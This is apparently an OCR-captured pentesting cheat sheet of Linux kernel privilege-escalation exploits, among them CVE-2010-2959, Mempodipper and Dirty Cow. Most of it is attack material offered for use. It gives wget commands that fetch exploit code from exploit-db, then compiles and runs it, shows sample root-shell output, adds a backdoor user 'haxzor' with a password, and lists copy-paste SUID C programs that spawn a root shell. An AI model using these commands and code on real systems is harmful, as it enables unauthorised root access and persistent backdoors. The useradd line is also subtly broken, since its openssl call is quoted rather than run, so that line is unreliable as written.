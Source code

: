 
####Handy Kernel Exploits####

CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)
[https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)
wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
$ gcc i-can-haz-modharden.c -o i-can-haz-modharden
$ ./i-can-haz-modharden
[+] launching root shell!
# id
uid=0(root) gid=0(root)

CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
[https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)

CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
[https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)
Linux CVE 2012-0056
wget -O exploit.c http://www.exploit-db.com/download/18411
gcc -o mempodipper exploit.c
./mempodipper

CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
[https://dirtycow.ninja/](https://dirtycow.ninja/)
First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

Run a command as a user other than root
sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

Add a user or change a password
/usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor
echo thePassword | passwd haxzor --stdin

####Local Privilege Escalation Exploit in Linux####

**SUID** (**S**et owner **U**ser **ID** up on execution)
Often SUID C binary files are required to spawn a shell as a
superuser, you can update the UID / GID and shell as required.

below are some quick copy and paste examples for various
shells:

SUID C Shell for /bin/bash

int main(void){
setresuid(0, 0, 0);
system("/bin/bash");
}

SUID C Shell for /bin/sh

int main(void){
setresuid(0, 0, 0);
system("/bin/sh");
}
